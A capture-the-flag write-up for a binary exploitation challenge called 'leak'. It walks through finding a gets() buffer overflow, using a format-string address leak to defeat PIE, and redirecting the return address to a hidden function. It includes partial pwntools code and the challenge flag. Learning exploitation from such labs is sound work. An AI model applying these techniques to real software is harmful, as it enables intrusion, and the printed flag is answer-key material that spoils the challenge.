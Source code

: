 # leak (easy)

It's easy when you have a leak. Bet you can't win this one!

Author: krloer

nc 20.100.164.71 1024

📎 [leak_handout.tar.gz](leak_handout.tar.gz)

# Writeup

Opened it in Ghidra and found the two main function I think is important. 

- [main](decompiled/main.c) - This is where I can exploit
- [dont_look](decompiled/dont_look.c) - This is the function I need to reach

Seeing in `main` that it uses `scanf` and `gets` which both are vulnerable for buffer overflows.

When I run the program it asks for a number:

```bash
└─$ ./handout/leak                             
Hope you're having a great day!
Please input you favorite number
```

if I enter 1 it lists 5 numbers and asks which were mine.

```bash
The numbers are:
1: 0xcafebabe 
2: 0xdeadbeef 
3: 0xc0ffee 
4: 0x1 
5: 0x555555557d78

Which of these numbers was your favorite? (1-5)
```

Then I can select number 4 and get `Thats right!`. 

The list comes from `main` and this line:

```c
printf("1: 0x%x \n2: 0x%x \n3: 0x%x \n4: 0x%x \n5: %20$p\n\n", local_c, local_10, local_14, local_18);
```

The 5th one leaks a memory address (`%p`). Not quite sure on which, but it gives me the 20th address in one of the directions.

Using this I can find out what the base memory address for this program is. 

First I need to find out how much data I need to send to buffer overflow. I do this by sending a lot of "A"s as the value until I get a segment fault.  The magic number was 26. After that I start overwriting the return address.

```bash
Hope you're having a great day!
Please input you favorite number
1
The numbers are:
1: 0xcafebabe 
2: 0xdeadbeef 
3: 0xc0ffee 
4: 0x1 
5: 0x5634f0a34d78

Which of these numbers was your favorite? (1-5)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
What? You really should remember your FAVORITE number!!
Segmentation fault
```

I quickly add a few more A to confirm more and in `dmesg -w | grep segfault` that I start overwriting the return address: (`41` is the letter `A` in hex)

```bash
[425169.175433] leak[27893]: segfault at 4141414141 ip 0000004141414141 sp 00007ffce632c580 error 14 in leak[5634f0a31000+1000]
```

I also see that I get the base memory address for the program: `5634f0a31000`.

So using this base address + the leaked address (number 5 in the list) I can calculate the offset to the start of my program. 

```python
baseAddress = 0x5634f0a31000 
leakedAddress = 0x5634f0a34d78
memoryAddressOffset = leakedAddress - baseAddress
```

So All I had to do now is to get the 5th number in the list, substract the `memoryAddressOffset` and I would have the base address for the program. Now since I can overwrite the return address I can just insert the address for the function `dont_look`. I could find the offset for that function in ghidra but pwntools has functions for this aswell.

```python
elf = ELF("./handout/leak")
addressForDontLook = <the leaked address > - <memoryAddressOffset> + elf.symbols['dont_look'],
```

So if we send this address after the 26 characters it will be where the program goes after executing it's next "return". 

And bingo:

```bash
└─$ python3 solve.py remote
REMOTE
What? You really should remember your FAVORITE number!!
nothing to see here...
wack{w0w_y0u_l3aked_m3}
```

# Flag

```
wack{w0w_y0u_l3aked_m3}
```